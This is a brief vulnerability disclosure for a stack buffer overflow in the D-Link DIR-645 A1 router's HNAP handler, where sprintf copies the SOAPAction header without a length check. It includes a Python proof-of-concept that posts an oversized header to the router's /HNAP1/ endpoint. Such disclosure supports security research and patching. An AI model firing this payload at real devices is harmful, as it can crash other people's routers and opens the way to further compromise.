## D-Link DIR-645 A1 Stack Overflow

**Vender**: D-Link

**Firmware version**: 1.03 A1

**Exploit Author**: Polaris

**Vendor Homepage**: [http](http://www.dlink.com.cn/): [//www.dlink.com.cn/](http://www.dlink.com.cn/)

## Detailed description

The hnap_main function in the cgibin handler uses sprintf to format the soapaction header onto the stack and has no limit on the size
![image](https://user-images.githubusercontent.com/74939940/141448662-8774a281-e3bb-489c-8148-e771e9bc122a.png)

## POC

```python
#python 2.7
import requests
import sys

header = {
    'SOAPAction' : 'http://purenetworks.com/HNAP1/GetDeviceSettings/' + 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA',
    'CONTENT_TYPE' : 'application/x-www-form-urlencoded'
    }
url="http://192.168.0.1/HNAP1/"
r=requests.post(url=url,headers=header)
print r.text
```

## Acknowledgment

Credit to Yongxin kr-lab

